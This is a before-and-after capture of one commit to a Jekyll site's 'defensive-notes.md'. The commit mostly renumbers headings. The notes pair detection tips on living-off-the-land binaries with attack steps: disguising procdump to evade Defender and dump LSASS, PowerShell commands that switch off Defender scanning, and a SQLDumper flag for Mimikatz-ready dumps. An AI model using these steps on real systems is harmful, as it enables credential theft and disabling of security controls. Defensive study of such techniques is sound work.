

Before and after one commit to Fil88/Fil88.github.io, a Jekyll site: the page built from defensive-notes.md, in a window 1280 px wide and 1400 px high, scrolled down 653 px. Shown: the whole window at 82% size. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours.

Commit message:
Update defensive-notes.md

````diff
--- a/defensive-notes.md
+++ b/defensive-notes.md
@@ -42,27 +42,24 @@ Certutil.exe may download a file from a remote destination using -urlcache. This
 
 # 5) wmic
 
-
 __Note:__ This is not an exaustive list of LOLBAS to monitor but rather a baseline. Your environment define your tailor made detection rules.
 
 https://docs.splunksecurityessentials.com/content-detail/certutil_download_with_urlcache_and_split_arguments/
 
 
+# 6) Notepad cache
 
-
-# Notepad cache
-
-[lazy]People like me use Notepad++ as a note-taking thing. We create a 'new', then never get around to saving them.
+[lazy]People like me use __Notepad++__ as a note-taking thing. We create a 'new', then never get around to saving them.
 
 They get cached here:
-C:\Users\{username}\AppData\Roaming\Notepad++\backup
+`C:\Users\{username}\AppData\Roaming\Notepad++\backup`
 
-# Procdump.exe
+# 7) Procdump.exe
 
 If you rename __procdump.exe to __dump64.exe__ and place it in the "C:\Program Files (x86)\Microsoft Visual Studio\*" folder, you can bypass Defender and dump __LSASS__.
 
 
-# Disable Defender
+# 8) Disable Defender
 
 ```powershell
 shell Set-MpPreference -DisableRealtimeMonitoring $true
@@ -77,7 +74,7 @@ Set-MpPreference -DisableCatchupFullScan $True
 Set-MpPreference -DisableCatchupQuickScan $True
 ```
 
-# SQldumper LSASS
+# 9) SQldumper LSASS
 
 0x01100:40 flag will create a Mimikatz compatible dump file.
 
````
